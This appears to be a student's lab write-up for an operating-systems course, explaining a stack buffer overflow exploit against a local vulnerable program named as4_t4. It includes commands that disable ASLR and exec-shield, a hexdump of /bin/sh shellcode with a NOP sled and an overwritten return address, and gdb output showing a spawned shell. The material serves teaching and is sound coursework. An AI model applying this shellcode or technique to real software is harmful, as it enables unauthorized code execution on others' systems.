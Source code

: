 # Documentation on task 4
-------------------------
## Preparation
To make sure all security measurements are turned off, run the following:

    $ sudo -i
    # echo 0 > /proc/sys/kernel/randomize_va_space
    # echo 0 > /proc/sys/kernel/exec-shield   

## How to create and run the exploit
This creates a file `exploit`, with a crafted string to run `/bin/sh` using the vulnerable `as4_t4`

    $ perl exploit.pl

It should look like this (check with `hexdump -C exploit`):

    00000000  31 c9 f7 e1 51 68 2f 2f  73 68 68 2f 62 69 6e 89  |1...Qh//shh/bin.|
    00000010  e3 b0 0b cd 80 90 90 90  90 90 90 90 90 90 90 90  |................|
    00000020  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
    *
    00000060  90 90 90 90 90 90 90 90  90 90 90 90 30 f6 ff bf  |............0...|
    00000070

You can see it working by entering:

    $ gdb ./as4_t4
    (gdb) run `cat exploit`
    Starting program: /home/oscourse/task-4/as4_t4 `cat exploit`
    process 2381 is executing new program: /bin/dash
    $ ls
    as4_t4	as4_t4.c  exploit  exploit.pl
 
## How we crafted the exploit
We figured out that the return address was set after 108 chars of input (which means 12 characters after `buf`, which has a length of 96 characters). At this place we wanted to insert the location for the given buffer, so the program would run shell code from our own buffer. We found that buffer address by recompiling the `as4_t4.c` (with buffer length now set to 96) so we could run it in `gdb` and set some breakpoint on a certain line (we used `as4_t4.c:8`, just after the overflow). At the break we could use the command `p/x &buf` to see the buffer's location and could confirm by repeating this procedure it wouldn't change over time. The location was therefore `0xbffff630` (see last 4 bytes of the hexdump).
 
We've used [this shellcode](http://www.shell-storm.org/shellcode/files/shellcode-517.php) to spawn `/bin/sh`. This is set at the beginning of the buffer (see lines 00-10). The middle part is stuffing with NOP (lines 10-60) till we are at 108 bytes and add the aforementioned return address.
